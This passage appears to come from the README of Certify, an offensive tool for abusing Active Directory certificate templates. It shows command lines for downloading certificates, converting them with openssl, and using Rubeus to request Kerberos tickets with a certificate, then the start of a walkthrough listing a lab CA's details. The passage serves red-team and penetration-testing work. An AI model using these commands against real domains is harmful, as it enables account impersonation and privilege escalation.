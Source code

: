 
      Download an already requested certificate:

        Certify.exe download /ca:SERVER\ca-name /id:X [/install] [/machine]



    Certify completed in 00:00:00.0200190


### Using Requested Certificates

Certificates can be transformed to .pfx's usable with Certify with:

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certificates can be used with Rubeus to request a TGT with:

    Rubeus.exe asktgt /user:X /certificate:C:\Temp\cert.pfx /password:<CERT_PASSWORD>


## Example Walkthrough

First, use Certify.exe to see if there are any vulnerable templates:

    C:\Temp>Certify.exe find /vulnerable
       _____          _   _  __
      / ____|        | | (_)/ _|
     | |     ___ _ __| |_ _| |_ _   _
     | |    / _ \ '__| __| |  _| | | |
     | |___|  __/ |  | |_| | | | |_| |
      \_____\___|_|   \__|_|_|  \__, |
                                 __/ |
                                |___./
      v1.0.0

    [*] Action: Find certificate templates
    [*] Using the search base 'CN=Configuration,DC=theshire,DC=local'
    [*] Restricting to CA name : dc.theshire.local\theshire-DC-CA

    [*] Listing info about the Enterprise CA 'theshire-DC-CA'

        Enterprise CA Name            : theshire-DC-CA
        DNS Hostname                  : dc.theshire.local
        FullName                      : dc.theshire.local\theshire-DC-CA
        Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
        Cert SubjectName              : CN=theshire-DC-CA, DC=theshire, DC=local
        Cert Thumbprint               : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
        Cert Serial                   : 14BFC25F2B6EEDA94404D5A5B0F33E21
        Cert Start Date               : 1/4/2021 10:48:02 AM
        Cert End Date                 : 1/4/2026 10:58:02 AM
        Cert Chain                    : CN=theshire-DC-CA,DC=theshire,DC=local
        UserSpecifiedSAN              : Disabled
        CA Permissions                :
          Owner: BUILTIN\Administrators        S-1-5-32-544
